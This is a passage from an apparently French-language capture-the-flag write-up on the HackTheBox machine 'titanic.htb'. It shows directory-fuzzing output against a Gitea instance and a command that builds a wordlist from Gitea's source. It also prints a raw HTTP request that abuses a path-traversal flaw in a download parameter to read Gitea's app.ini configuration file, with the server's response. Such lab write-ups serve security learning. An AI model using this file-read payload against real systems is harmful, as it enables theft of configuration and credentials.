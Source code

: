 ```bash
 :: Threads          : 64
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 104ms]
attachments             [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 149ms]
avatars                 [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 137ms]
conf                    [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 141ms]
home                    [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 156ms]
log                     [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 156ms]
packages                [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 267ms]
queues                  [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 249ms]
sessions                [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 225ms]
tmp                     [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 229ms]
:: Progress: [4614/4614] :: Job [1/1] :: 266 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```
On observe l'utilisation d'une "gitea_wordlist.txt". Je l'ai créer en récupérer le code source sur github, puis j'ai utilisé la commande suivante :
```bash
find ./gitea-1.22.1/ -type f -exec basename {} \; > gitea_wordlist.txt 
```

```bash
GET /download?ticket=/home/developer/gitea/data/gitea/conf/app.ini HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-------------------------

HTTP/1.1 200 OK
Date: Wed, 19 Feb 2025 22:34:22 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="/home/developer/gitea/data/gitea/conf/app.ini"
Content-Type: application/octet-stream
Content-Length: 2004
Last-Modified: Fri, 02 Aug 2024 10:42:14 GMT
Cache-Control: no-cache
ETag: "1722595334.8970726-2004-2176520380"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo

[repository.upload]
TEMP_PATH = /data/gitea/uploads

[server]
```